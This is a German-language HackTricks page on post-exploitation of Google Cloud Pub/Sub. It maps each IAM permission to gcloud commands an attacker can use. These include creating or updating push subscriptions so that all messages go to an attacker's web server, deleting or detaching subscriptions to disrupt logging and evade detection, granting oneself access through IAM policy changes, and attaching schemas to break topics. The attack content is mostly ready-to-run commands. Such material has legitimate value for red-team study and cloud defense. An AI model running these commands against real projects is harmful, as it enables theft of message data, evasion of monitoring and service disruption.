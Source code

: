# GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Pub/Sub

Für weitere Informationen über Pub/Sub besuche die folgende Seite:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Veröffentliche eine Nachricht in einem Thema, nützlich, um **unerwartete Daten zu senden** und unerwartete Funktionen auszulösen oder Schwachstellen auszunutzen:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Nützlich, um zu verhindern, dass ein Abonnement Nachrichten empfängt, möglicherweise um eine Entdeckung zu vermeiden.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Nützlich, um zu verhindern, dass ein Abonnement Nachrichten empfängt, möglicherweise um eine Entdeckung zu vermeiden.\
Es ist möglich, ein Thema zu löschen, selbst wenn Abonnements daran angehängt sind.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Verwenden Sie diese Berechtigung, um einige Einstellungen des Themas zu aktualisieren, um es zu stören, wie `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Geben Sie sich die Berechtigung, um einen der vorherigen Angriffe durchzuführen.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Holen Sie sich alle Nachrichten auf einem Webserver:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Erstellen Sie ein Abonnement und verwenden Sie es, um **Nachrichten abzurufen**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Ein Abonnement löschen** könnte nützlich sein, um ein Protokollverarbeitungssystem oder etwas Ähnliches zu stören:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Verwenden Sie diese Berechtigung, um einige Einstellungen zu aktualisieren, damit Nachrichten an einem Ort gespeichert werden, auf den Sie zugreifen können (URL, Big Query-Tabelle, Bucket) oder um dies einfach zu stören.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Geben Sie sich die Berechtigungen, die erforderlich sind, um eine der zuvor kommentierten Angriffe durchzuführen.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Greifen Sie auf ein Schema zu einem Thema zu, sodass die Nachrichten es nicht erfüllen und das Thema daher gestört wird.\
Wenn es keine Schemas gibt, müssen Sie möglicherweise eines erstellen.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Dies könnte so aussehen, als würde das Löschen eines Schemas es Ihnen ermöglichen, Nachrichten zu senden, die nicht mit dem Schema übereinstimmen. Da das Schema jedoch gelöscht wird, wird keine Nachricht tatsächlich in das Thema eingehen. Das ist also **NUTZLOS**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Geben Sie sich die Berechtigungen, die erforderlich sind, um eine der zuvor kommentierten Angriffe durchzuführen.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Dies wird einen Snapshot aller unACKed Nachrichten erstellen und sie zurück zum Abonnement bringen. Für einen Angreifer nicht sehr nützlich, aber hier ist es:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
